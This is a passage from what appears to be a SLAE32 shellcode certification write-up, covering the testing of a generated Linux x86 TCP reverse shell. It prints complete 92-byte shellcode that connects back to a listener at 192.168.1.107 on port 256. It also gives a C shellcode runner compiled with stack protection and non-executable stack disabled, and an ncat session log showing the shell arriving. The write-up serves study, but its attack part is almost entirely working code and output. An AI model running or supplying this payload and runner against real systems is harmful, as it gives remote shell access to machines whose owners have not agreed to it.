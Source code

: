 The python script and the `NASM` template are stored inside the aforementioned Git repository, to be more specific they can be found in the folder [assignment/2/automation](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/2/automation).

## Testing

To test that everything works correctly, I used the python script to generate the shellcode for a TCP Reverse Shell listening on `192.168.1.107:256`:

```bash
python3 wrapper.py -p 256 -ip "192.168.1.107" -t ./template.nasm -o /tmp/output.nasm

# [+] Object file generated at /tmp/output.nasm
# [+] Executable binary generated at /tmp/output
# [+] Shellcode length: 92 bytes
# [+] Shellcode:
# "\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\x68\xc0\xa8\x01\x6b\xb3\x01\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";
```

To test the shellcode generated by the python script, I used the following C `shellcode runner`:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x89\xc1\xb0\x66\xb1\x06\x51\xfe\xc3\x53\xb1\x02\x51\x89\xe1\xcd\x80\x89\xc6\x68\xc0\xa8\x01\x6b\xb3\x01\x66\x53\x31\xdb\xb3\x02\x66\x53\x89\xe1\x31\xdb\xb3\x10\x53\x51\x56\x31\xc0\xb0\x66\xb3\x03\x89\xe1\xcd\x80\x89\xd9\x51\xb0\x3f\x89\xf3\x8b\x0c\x24\x49\xcd\x80\x59\xe2\xf2\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

Compile and run it:

```bash
gcc -fno-stack-protector -z execstack shellcode_runner.c -o /tmp/tcp_rev_shell
/tmp/tcp_rev_shell
```

On my Kali machine, on which I previously set up a ncat listener (`sudo ncat -nvlp 256`), I received a reverse shell:

```bash
sudo nc -nvlp 256

# Ncat: Listening on :::256
# Ncat: Listening on 0.0.0.0:256
# Ncat: Connection from 192.168.1.105.
# Ncat: Connection from 192.168.1.105:60058.
# id
# uid=1000(rbct) gid=1000(rbct) groups=1000(rbct),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare)
# whoami
# rbct
```
